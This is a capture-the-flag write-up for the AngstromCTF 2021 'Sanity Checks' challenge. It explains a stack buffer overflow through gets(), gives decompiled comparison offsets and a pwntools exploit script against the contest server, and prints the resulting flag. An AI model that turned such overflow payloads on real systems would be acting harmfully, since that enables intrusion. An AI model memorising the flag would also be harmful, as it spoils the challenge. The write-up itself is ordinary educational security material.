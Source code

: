 # AngstromCTF2021 Sanity Checks
Looking at the sourcecode we see that the application uses `gets`. We therefore know that we can use a bufferoverflow attack.

We see that `strcmp` checks the input for the string `password123`. We can mitigate this but injecting `password123` and then a null byte, because the `strcmp` will stop comparing.

Decompiling the application we wee that:
```
# 327: int main (int argc, char **argv, char **envp);
# ; var char *format @ rbp-0xe0
# ; var char *s1 @ rbp-0x60
# ; var file*stream @ rbp-0x20
# ; var uint32_t var_14h @ rbp-0x14
# ; var uint32_t var_10h @ rbp-0x10
# ; var uint32_t var_ch @ rbp-0xc
# ; var uint32_t var_8h @ rbp-0x8
# ; var uint32_t var_4h @ rbp-0x4
# 0x00401235      cmp     dword [var_4h], 0x32
# 0x00401239      jne     0x4012c1
# 0x0040123f      cmp     dword [var_8h], 0x37
# 0x00401243      jne     0x4012c1
# 0x00401245      cmp     dword [var_ch], 0xf5
# 0x0040124c      jne     0x4012c1
# 0x0040124e      cmp     dword [var_10h], 0x3d
# 0x00401252      jne     0x4012c1
# 0x00401254      cmp     dword [var_14h], 0x11
```
This we only need to add these values at their respective offsets to pass the sanity checks.

Coding it all up we get:
```
from pwn import *
password = b'password123\x00'
padding = b'A'*64
sanity_checks = b'\x11\x00\x00\x00'\
                +b'\x3d\x00\x00\x00'\
                +b'\xf5\x00\x00\x00'\
                +b'\x37\x00\x00\x00'\
                +b'\x32\x00\x00\x00'
payload = password+padding+sanity_checks

conn = remote('shell.actf.co', 21303)
conn.sendline(payload)
response = conn.recvline()
print(response)
response = conn.recvline()
print(response)
```
This returns the flag:  `actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}`
